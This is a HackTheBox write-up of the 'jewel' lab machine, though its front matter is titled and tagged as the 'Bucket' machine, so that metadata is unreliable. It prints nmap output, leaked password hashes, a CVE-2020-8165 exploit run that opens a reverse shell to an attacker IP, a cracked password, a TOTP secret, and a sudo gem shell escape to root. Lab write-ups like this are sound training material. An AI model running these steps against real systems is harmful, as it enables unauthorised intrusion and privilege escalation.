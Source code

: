 ```yaml
---
layout: post
title:  "HackTheBox Bucket Writeup" 
tags: hackthebox s3-bucket dynamoDB
categories: hackthebox active-machine 
rel-img: /assets/img/htb/bucket/bucket.png
description: Fantastic journey through s3 bucket and DynamoDB!!
---
```


### Hackthebox Bucket Writeup
![Bucket](/assets/img/htb/bucket/bucket.png)

## Abstract

Fantastic journey through s3 bucket and DynamoDB

## Summary
1. Initial foothold
  - Nmap recon
  - gitweb enum
  - phusion passenger exploration
2. Ruby on Rails Deserialization Attack
3. User Flag
4. Priviledge Escalation
5. Root Flag

## Initial foothold

### Nmap recon

```
# Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-23 09:27 CEST
Nmap scan report for 10.10.10.211                                                                                                                                                                                                          
Host is up, received echo-reply ttl 63 (0.053s latency).                                                                                                                                                                                   
Scanned at 2020-10-23 09:27:54 CEST for 23s                                                                                                                                                                                                
Not shown: 997 filtered ports                                                                                                                                                                                                              
Reason: 997 no-responses                                                                                                                                                                                                                   
PORT     STATE SERVICE REASON         VERSION                                                                                                                                                                                              
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)                                                                                                                                                       
| ssh-hostkey:                                                                                                                                                                                                                             
|   2048 fd:80:8b:0c:73:93:d6:30:dc:ec:83:55:7c:9f:5d:12 (RSA)                                                                                                                                                                             
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDK1T+N61bTR89bPSsTtguCPwCtq5IAemU5F9VO6hSw8hnLrQ+3Bx6Cjci6MFx9RAMOS4xVtsmqtDvmjrtQ5hYuOYXlafsv6QU+6LJ+vImDSXiunRdpck3Z6f8sIEOOtiCJZ9HDiAzE62nolJPe2ObtU/Of627MiAksFh6+oBl/ZoWnveQwY7TLgFf19IhHV4Q9OPUlqeokiWiTazbvj5jC8vWcnl+DpN3xTuiTV8b+xUyXnFyO/MBaKhRGBbcbBwOsFVPc8NFyuyardVWEblS+p6B1QG6C62/o2Ft8x9lk1cYEDaFH+IfIUGhHykFQlA8+Y4qee8+OtRKrfwkVyxOr                                                                                        
|   256 61:99:05:76:54:07:92:ef:ee:34:cf:b7:3e:8a:05:c6 (ECDSA)                                                                                                                                                                            
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBgCpUS3ovp4tAKRfsFll+x5W6F28nQMhBrx06jDhK35Z10da2PX2vayLOniUTEsnb0hL/4phtNdI+QOKLPX+sg=                                                                         
|   256 7c:6d:39:ca:e7:e8:9c:53:65:f7:e2:7e:c7:17:2d:c3 (ED25519)                                                                                                                                                                          
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIA9poXYE6YrgNaTFpdzYtMPUeSwB416uWFLSrT55iwv0                                                                                                                                                         
8000/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.38                                                                                                                                                                                  
|_http-generator: gitweb/2.20.1 git/2.20.1                                                                                                                                                                                                 
| http-methods:                                                                                                                                                                                                                            
|_  Supported Methods: GET HEAD POST OPTIONS                                                                                                                                                                                               
| http-open-proxy: Potentially OPEN proxy.                                                                                                                                                                                                 
|_Methods supported:CONNECTION                                                                                                                                                                                                             
|_http-server-header: Apache/2.4.38 (Debian)                                                                                                                                                                                               
| http-title: 10.10.10.211 Git                                                                                                                                                                                                             
|_Requested resource was http://10.10.10.211:8000/gitweb/                                                                                                                                                                                  
8080/tcp open  http    syn-ack ttl 63 nginx 1.14.2 (Phusion Passenger 6.0.6)
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.14.2 + Phusion Passenger 6.0.6
|_http-title: BL0G!
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 2.6.32 (91%), Crestron XPanel control system (90%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.16 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%), Linux 2.6.39 - 3.2 (86%), Infomir MAG-250 set-top box (86%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.80%E=4%D=10/23%OT=22%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=5F928611%P=x86_64-pc-linux-gnu)
SEQ(SP=104%GCD=1%ISR=10C%TI=Z%II=I%TS=A)
OPS(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)
WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)
ECN(R=Y%DF=Y%TG=40%W=FAF0%O=M54DNNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=N%TG=40%CD=S)
```

Nmap revealed that port 22, 8000 and 8080 was open and SSH, Apache2 ,nginx webserver was respectively running on. Morevoer Nmap script gave information that webserver on 8000 was using gitweb 2.20.1 interface. 

### Gitweb enum

I started by searching for gitweb 2.21.1 available exploits but found nothing. Then i moved on enumerating gitweb web pages and found interesting file named bd.sql at URL http://10.10.10.211:8000/gitweb/?p=.git;a=blob;f=bd.sql;h=a7fddb693ca735f8aa1e4b09046cec2adddddc51;hb=HEAD, containing bill and jennifer user hashes:

`bill`:`$2a$12$uhUssB8.HFpT4XpbhclQU.Oizufehl9qqKtmdxTXetojn2FcNncJW`
`jennifer`:`$2a$12$ik.0o.TGRwMgUmyOR.Djzuyb/hjisgk2vws1xYC/hxw8M1nFk0MQy`

![gitweb file page](/assets/img/htb/jewel/jewel-gitweb.png)

I tried to crack these hashes but every attempt failed.

### Pushion Passenger exploration

So i decided to exploring web server on 8080 where Phusion Passenger 6.0.6 was running. I did not find any available eploit for this service, then i tried to register new account tthrough signup page:

![login page](/assets/img/htb/jewel/homepage-jewel.png)

After logging in i tried some attack but no luck. 

## Ruby on Rails Deserialization attack

After getting some hints from the HTB forum found that the ruby on rails version running on webserver was < 5.2.4.3 and it was vulnerable to deserialization attack (I found ruby on rails version at the URL http://10.10.10.211:8000/gitweb/?p=.git;a=commitdiff;h=5d6f436256c9575fbc7b1fb9621b18f0f8656741.

More information about this vulnerability can be found at Google Forum (https://groups.google.com/forum/#!topic/ruby-security-ann/OEWeyjD7NHY).

Following the PoC found at GitHub (https://github.com/masahiro331/CVE-2020-8165) and the python script created by @randomname83 i got reverse shell.

```
sh4ck@kali:~$ python3 exploit_poc_cve-2020-8165.py 10.10.10.211 10.10.14.83 4545

sh4ck@kali:~$ nc -nlvp 4545
listening on [any] 4545 ...
connect to [10.10.14.83] from (UNKNOWN) [10.10.10.211] 44778
bash: cannot set terminal process group (815): Inappropriate ioctl for device
bash: no job control in this shell
bill@jewel:~/blog$i
``` 

## User Flag

After upgrading full interactive shell i got user flag under home bill folder.

```
bill@jewel:~/blog$ python3 -c 'import pty;pty.spawn("/bin/bash")'
bill@jewel:~/blog$ export TERM=xterm
bill@jewel:~/blog$ cat user.txt
```
## Priviledge Escalation

Linpeas found two password hashes inside the file dump_2020-08-27.sql and bd.sql at /var/backups/ and /home/bill/blog/ respectively:

`jennifer` : `$2a$12$sZac9R2VSQYjOcBTTUYy6.Zd5I02OnmkKnD3zA6MqMrzLKz0jeDO`

`Unknown`: `$2a$12$uhUssB8.HFpT4XpbhclQU.Oizufehl9qqKtmdxTXetojn2FcNncJW`

Listing the content of dump_2020-08-27.sql file got another hash of user bill:

`bill`: `$2a$12$QqfetsTSBVxMXpnTR.JfUeJXcJRHv5D5HImL0EHI7OzVomCrqlRxW`

Tried to crack these hashes using john.

`$ sudo john --format=bcrypt creds.hash --wordlist=/usr/share/wordlists/rockyou.txt`

John has successfully cracked the hash and the credential is bill : spongebob. 

Tried to run the command $sudo -l  again to check any special privilege given to user bill, but it asked a Verification Code after entering the password. 
It appears that there is some two factor authentication enabled for normal users to run $sudo -l command. 
After some more enumeration got a hidden file google_authenticator inside the home directory (.google_authenticator). 
There is secret code inside this file which is 2UQI3R52WFCLE6JTLDCSJYMJH4, this code can be used to generate OTP.  
I have used authenticator addons for Firefox to generate OTP using this secret key. 

After addons installation and setting the OTP with secret key, i got otp time based number.

Copy the OTP and type the command $sudo -l then password spongebob then enter OTP as Verification code.
anyway i got some error. the issue was determinated bay time misalignment between remote server and my machine. So i had to set my machine time as per remote box. 
sudo -l revealed that user bill can run all the command using gem binary. 

```
bill@jewel:~/blog$ date
date
Mon 19 Oct 10:05:30 BST 2020
bill@jewel:~/blog$ sudo -l
sudo -l
[sudo] password for bill: spongebob

Verification code: 672111

Matching Defaults entries for bill on jewel:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    insults

User bill may run the following commands on jewel:
    (ALL : ALL) /usr/bin/gem
```

## Root Flag

From GTFOBIN found gem binary privilege escalation vector using Sudo Right Exploitation to get root. Let us get root shell and capture root flag.
Getting Root Shell

```
bill@jewel:~/blog$ sudo gem open -e "/bin/sh -c /bin/sh" rdoc
sudo gem open -e "/bin/sh -c /bin/sh" rdoc
# id
id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
```

